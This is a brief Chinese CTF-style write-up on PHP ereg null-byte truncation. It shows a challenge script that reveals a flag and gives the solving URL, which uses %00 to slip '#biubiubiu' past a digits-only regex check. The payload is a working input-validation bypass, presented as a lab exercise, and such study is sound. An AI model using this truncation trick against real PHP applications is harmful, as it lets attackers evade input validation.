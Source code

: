 # ereg正则%00截断

```plain

<?php
$flag = "flag";
if (isset ($_GET['nctf'])) {
if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
Plain Text
```



ereg函数遇到%00会认为函数执行完毕


[http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu](http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu)






